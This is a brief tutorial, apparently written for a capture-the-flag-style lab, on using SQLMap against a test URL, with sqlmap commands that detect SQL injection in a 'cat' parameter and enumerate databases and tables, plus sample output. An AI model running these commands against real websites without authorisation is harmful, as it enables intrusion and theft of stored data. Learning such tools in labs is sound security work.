## 2. Basic Usage
- To check all options of SQLMap:
```
sqlmap --help
```
- For beginners, use the wizard mode:
sqlmap --wizard
👉 This will guide you step by step and ask questions.



## 3. Example: Testing a Vulnerable URL
Suppose the target website has this URL:
http://sqlmaptesting.thm/search?cat=1
Here, the parameter `cat=1` might be vulnerable.

Run SQLMap with:
```
sqlmap -u http://sqlmaptesting.thm/search?cat=1
```
### What SQLMap Does:
- Tests the URL for SQL injection.  
- Shows if the parameter (`cat`) is vulnerable.  
- Identifies the **type of SQL injection** (boolean-based, error-based, time-based, UNION).  



## 4. Extracting Database Names
Once vulnerability is confirmed, get all databases with:
```
sqlmap -u http://sqlmaptesting.thm/search?cat=1 --dbs
```
**Example Result:**
[] users
[] members



## 5. Extracting Tables
Now, let’s check tables inside the `users` database:
```
sqlmap -u http://sqlmaptesting.thm/search?cat=1 -D users --tables
```
**Example Result:**
+-----------+
| johnath |
| alexas |
| thomas |
+-----------+
